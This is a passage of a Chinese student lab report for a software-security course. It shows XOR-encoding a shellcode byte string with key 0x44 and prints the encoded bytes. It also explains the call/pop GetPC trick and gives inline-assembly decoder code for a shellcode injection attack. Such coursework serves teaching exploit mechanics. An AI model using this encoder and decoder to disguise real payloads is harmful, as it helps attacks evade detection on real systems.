   我们去寻找生成的encode文件，打开之后，发现里面存储着我们的编码。\x77\x9f\x17\x2c\x36\x28\x20\x64\x2c\x2b\x64\x33\x2b\x2c\x2c\x21\x28\x28\xcf\x80\x17\x14\x14\x17\xfc\xae\x43\x91\x33\xbb\x94\xd4 表示我们完成了编码操作。![20250403-225457](D:\许洋计算机科学与技术\软件安全\作业\实验5\实验5\20250403-225457.jpg)

###  四、shellcode代码的解码

 在我们进行编码之后，我们还需要进行解码，才能完成最后的shellcode注入攻击。我们需要在shellcode前加上一段代码来进行解码，这样才能确保程序正确运行。

 我们用以下的代码来进行解码：![20250404-001719](D:\许洋计算机科学与技术\软件安全\作业\实验5\实验5\20250404-001719.jpg)

 程序中，默认EAX 在shellcode开始时对准shellcode起始位置，之后的代码将每次将shellcode的代码异或特定key（为0x44）后重新覆盖原先shellcode的代码。末尾，放一个空指令0x90作为结束符。 

但是我们需要确定shellcode的当前地址，所以我们看如下代码

```c++
#include <iostream> 
using namespace std; 
int main(int argc, char const *argv[]) 
{ 
    unsigned   int   temp;     
    __asm{ 
        call lable; 
        lable: 
        pop eax; 
        mov temp,eax; 
    } 
    cout <<temp <<endl; 
    return 0; 
} 
```

进行反汇编后我们发现：其核心语句在于“call lable; lable: pop eax;”之后，eax的值就是当前指令地址了。 原因是call lable的时候，会将当前EIP的值（也就是下一条指令pop eax的指令地址）入栈。![20250404-001924](D:\许洋计算机科学与技术\软件安全\作业\实验5\实验5\20250404-001924.jpg)

所以我们采用以下代码

```c++
#include <stdlib.h> 
#include <string.h> 
#include <stdio.h> 
int main() 
{ 
    __asm 
    { 
        call lable;  
        lable: pop eax;  
        add eax, 0x15           ;越过decoder记录shellcode 起始地址      
        xor ecx, ecx 
        decode_loop: 
        mov bl, [eax + ecx] 
        xor bl, 0x44                 ;用 0x44 作为 key 
        mov [eax + ecx], bl 
        inc ecx 
        cmp bl, 0x90   
        jne decode_loop  
    }
    return 0; 
} 
```
